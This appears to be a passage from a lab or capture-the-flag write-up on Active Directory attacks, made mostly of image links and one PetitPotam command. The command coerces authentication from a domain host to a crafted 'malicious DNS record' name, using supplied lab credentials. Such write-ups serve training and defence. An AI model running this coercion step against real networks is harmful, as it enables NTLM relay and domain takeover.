 ![](./assets/img/sysadmin/dc582dc300d2d9654831f19cedef4211.png)

![](./assets/img/sysadmin/54fb610dacfd1ccb4383fb0433c01401.png)

Instead, we need to use the malicious DNS record that we created for the specific machine (`SCRIPTORIUM1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA`):

```
/opt/tools/PetitPotam/PetitPotam.py -d 'jess.kingdom' -u 'Doros_ARCHIVON' -p 'bO3n21E6rc' SCRIPTORIUM1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SCRIPTORIUM.jess.kingdom
```
